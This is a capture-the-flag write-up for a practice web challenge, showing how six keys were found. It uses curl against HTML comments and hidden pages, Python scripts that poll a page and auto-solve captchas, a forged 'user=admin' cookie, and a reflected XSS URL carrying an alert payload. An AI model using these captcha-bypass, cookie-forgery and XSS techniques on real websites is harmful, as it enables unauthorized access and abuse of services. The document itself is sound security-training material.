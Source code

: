 # Builds.Hack.Me

<http://ctf.slothparadise.com/>

## Key 1 & 2

``` bash
% curl http://ctf.slothparadise.com/ | grep KEY
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
Dload  Upload   Total   Spent    Left  Speed
100  2421  100  2421    0     0   3407      0 --:--:-- --:--:-- --:--:--  3405
<!--- Here you go: KEY{YourSecondKey} -->
      KEY{YOURFIRSTKEY}=
```

## Key 3

The comment at the bottome of <http://ctf.slothparadise.com/about.php> says 

> You are the 79267th visitor to this page. Every thousandth visitor gets a prize.

To automate the 1000th request i build the following script 

``` Python
#!/usr/bin/env python

import requests
import sys

while True:
    r = requests.get('http://ctf.slothparadise.com/about.php')
    if 'KEY' in r.text:
        print r.text
        sys.exit()

```

Running that and waiting a while i get the following key 

``` HTML
<p>You are the 80000th visitor to this page.
 Congrats, here's your prize: KEY{999ProblemsButAReloadAint1}</p>
```

## Key 4

At <http://ctf.slothparadise.com/walled_garden.php> 1024 captchas need to be solved

Submitting one and looking at the URL and source code shows that this can be scripted 

The submitted url is <http://ctf.slothparadise.com/walled_garden.php?name=bob&captcha=52fdebd4> 

The captcha is in `<pre>` tags so the following script gives a key 

``` Python
#!/usr/bin/env python

import requests
import sys

while True:
    src = requests.get('http://ctf.slothparadise.com/walled_garden.php?name=bob')
    sp = src.text.split('<pre>')[1]
    capt = sp.split('</pre>')[0]
    r = requests.get('http://ctf.slothparadise.com/walled_garden.php?name=bob&captcha=' + capt)
    if 'KEY' in r.text:
        print r.text
        sys.exit()
```

After waiting i receive the next key

``` HTML
 <p> Captcha correct!</p> 
 <p>Congrats! Here is your key: KEY{GodIHopeYouScriptedThis}</p>  
 <p>Solved <?php=$solved?> 
```

## Key 5

At the index page there is a commeted out link to `hidden.php`

``` bash
% curl http://ctf.slothparadise.com/ | grep hidden
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
  Dload  Upload   Total   Spent    Left  Speed
  100  2421  100  2421    0     0  12012      0 --:--:-- --:--:-- --:--:-- 12044
<!--          <li><a href="/hidden.php">Hidden</a></li> -->
```

Looking at this page source i see an `xml` link that is not referenced on the other pages 

``` bash
% curl http://ctf.slothparadise.com/hidden.php | grep .xml
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
  Dload  Upload   Total   Spent    Left  Speed
  100  1416  100  1416    0     0   7047      0 --:--:-- --:--:-- --:--:--  7044
<link rel="service" href="/info.xml">
```

The `xml` page has the next key

``` bash
% curl http://ctf.slothparadise.com/info.xml | grep KEY
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
  Dload  Upload   Total   Spent    Left  Speed
  100   199  100   199    0     0    949      0 --:--:-- --:--:-- --:--:--   952
<super_secret_flag>KEY{AllXMLIsGarbageXML}</super_secret_flag>
```

## Key 6

Back at the hidden page there is a message that i am not an admin. 

The hints from the index page says that Watch for cookies on the web pages. Sometimes they're used for authentication.

Using this info i make the following script

``` Python
#!/usr/bin/env python

import requests
cookie = {'user':'admin'}
r = requests.get('http://ctf.slothparadise.com/hidden.php', cookies = cookie)
print r.text
```

Running this script i get the last key 

``` HTML
<p>Here are your ssh credentials in case you forgot:</p>
<iframe width="560" height="315" src="//www.youtube.com/embed/i8u6EodZseg?rel=0&autoplay=1" frameborder="0" allowfullscreen></iframe>
 <p>KEY{HackThePlanet}</p>
<p>By the way <a href="/hardstuff.zip">here are the files</a> you asked me to hold on to for you.</p>
</body>
```

## Reflective XSS

At <http://ctf.slothparadise.com/walled_garden.php> it looks to be vulnerable to reflective XSS attacks 

This link shows the attack <http://ctf.slothparadise.com/walled_garden.php?name=%3C%2Fscript%3E%22%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E>

![](xss.png)
